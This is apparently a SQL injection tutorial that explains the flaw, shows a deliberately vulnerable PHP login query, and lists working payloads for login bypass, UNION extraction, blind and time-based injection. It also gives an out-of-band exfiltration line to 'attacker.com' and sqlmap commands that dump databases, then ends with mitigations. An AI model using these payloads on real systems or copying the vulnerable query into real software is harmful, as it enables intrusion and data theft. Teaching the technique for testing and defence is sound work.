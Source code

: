 #### SQL Injection Guide

1. What is SQL Injection & Its Impact?

Definition

SQL Injection is a web security vulnerability that allows an attacker to inject malicious SQL queries into an SQL statement within a vulnerable web application. This occurs when user inputs are not properly validated, enabling the attacker to manipulate the database.

Impact

A successful SQL Injection attack can lead to:

Authentication Bypass: Accessing user accounts without valid credentials.

Data Exposure: Leaking sensitive data, such as user information or payment details.

Data Manipulation: Deleting, modifying, or stealing user data from the database.

2. SQL Basics

What is SQL?

SQL (Structured Query Language) is used to interact with relational database management systems (DBMS) to create, modify, and manage data.

Common DBMS Examples

MySQL

SQLite

PostgreSQL

Oracle

Microsoft SQL Server (MSSQL)

Key SQL Statements

Statement

Description

SELECT

Retrieves records from tables

INSERT

Adds records to a table

UPDATE

Modifies existing records

DELETE

Removes records from a table

ORDER BY

Sorts records in a result set

LIMIT

Restricts the number of records

WHERE

Filters records based on conditions

SQL Comments

SQL comments are useful in SQL Injection to bypass parts of a query.

MySQL: #comment, -- comment, /*comment*/

PostgreSQL: -- comment, /*comment*/

Oracle: -- comment

SQLite: -- comment, /*comment*/

MSSQL: -- comment, /*comment*/

Vulnerable PHP Example

$username = $_POST['username'];
$password = $_POST['password'];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($connection, $query);

If user inputs are not sanitized, an attacker can inject SQL code.

3. SQL Injection Techniques

Types

In-band SQLi

Blind SQLi

Out-of-band SQLi

3.1 In-band SQLi

Error-based SQLi

Goal: Trigger database errors to reveal DBMS info.

Example Input: '

MySQL Error:

You have an error in your SQL syntax...

Oracle Error:

ORA-00933: SQL command not properly ended

Login Bypass Example

Input (username):

admin' OR '1'='1' --

Resulting Query:

SELECT * FROM users WHERE username='admin' OR '1'='1' --' AND password='anything'

Explanation:

'1'='1' always returns true.

-- comments out the rest.

Bypasses authentication.

Union-based SQLi

Goal: Use UNION to fetch additional data.

Steps:

Find column count:

' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --

Find injectable columns:

' UNION SELECT 'a', NULL --
' UNION SELECT NULL, 'a' --

Extract data:

' UNION SELECT database(), version() --

3.2 Blind SQLi

Boolean-based

' AND 1=1 --     -- True
' AND 1=2 --     -- False

Extract data:

' AND SUBSTRING(database(),1,1)='m' --

Time-based

' AND IF(1=1, SLEEP(5), 0) --
' AND IF(SUBSTRING(database(),1,1)='m', SLEEP(5), 0) --

Delays response if condition is true.

3.3 Out-of-band SQLi

Goal: Use external channels (e.g., DNS) to exfiltrate data.

Example:

SELECT LOAD_FILE(CONCAT('\\',database(),'.attacker.com\\test'));

4. Dumping Data Using sqlmap

sqlmap is an open-source tool for detecting and exploiting SQL Injection.

Basic Usage

python sqlmap.py -u "http://example.com/?id=1"

Steps

Test for SQLi:

sqlmap -u "http://example.com/?id=1"

List databases:

sqlmap --dbms=mysql -u "http://example.com/?id=1" --dbs

List tables:

sqlmap --dbms=mysql -u "http://example.com/?id=1" -D database_name --tables

Dump table data:

sqlmap --dbms=mysql -u "http://example.com/?id=1" -D database_name -T table_name --dump

Example

sqlmap -u "http://example.com/?id=1" --dbs
sqlmap -u "http://example.com/?id=1" -D users_db --tables
sqlmap -u "http://example.com/?id=1" -D users_db -T users --dump

5. Mitigation

Input Validation: Use whitelisting and strict filters.

Prepared Statements:

$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);

Minimum Privileges: Restrict DB access.

Use ORM: Frameworks like Django, Laravel reduce SQLi risk.

Suppress Errors: Don’t reveal DB errors to users.

6. Tools

sqlmap: Automated SQLi tool.

Burp Suite: For manual SQLi testing.

Havij: SQLi tool (less commonly used today).

